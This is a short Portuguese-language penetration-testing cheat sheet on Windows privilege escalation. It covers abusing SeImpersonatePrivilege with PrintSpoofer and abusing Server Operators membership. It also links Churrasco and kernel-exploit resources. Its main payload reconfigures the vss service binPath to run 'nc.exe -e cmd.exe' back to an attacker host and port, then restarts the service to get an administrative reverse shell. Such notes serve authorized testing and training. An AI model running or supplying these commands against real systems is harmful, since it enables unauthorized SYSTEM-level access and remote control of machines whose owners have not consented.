 ## Impersonation Privileges  
Verifique se o usuário possui a permissão **SeImpersonatePrivilege** com o comando `whoami /priv`. Caso esteja como enable, utilize o exploit **PrintSpoofer.exe**.  
Link: https://github.com/itm4n/PrintSpoofer/releases  

## Enumeração de grupos
Verifique quais grupos o usuário faz parte:
```powershell
net user <USER>
```
### Server Operators
O grupo `Server Operators` permite ao usuário parar e iniciar serviços.
Podemos utilizar o serviço `vss` para alterar indicar o caminho do binário que será executado e utilizar o `netcat` para enviar uma shell com privilégio administrativo.
```bash
# Copiar o binário nc.exe
cp /usr/share/windows-resources/binaries/nc.exe /tmp/nc.exe
```

```powershell
# Subir o binário para o alvo e indicar o caminho com o payload no serviço do vss
sc.exe config vss binPath="C:\System\Temp\nc.exe -e cmd.exe <LHOST> <LPORT>"

#Parar o serviço vss
sc.exe stop vss

# Iniciar o serviço com o payload malicioso
sc.exe start vss
```


# Windows Server 2003
Verificar se está vulnerável ao exploit Churrasco
https://www.exploit-db.com/exploits/6705

## Scripts para pesquisa de Kernels vulneráveis:
https://rootrecipe.medium.com/windows-kernel-exploitation-fe268f43bb35

## Pesquisa por patches não aplicados:
https://github.com/carlospolop/winPE/tree/master/binaries/watson

``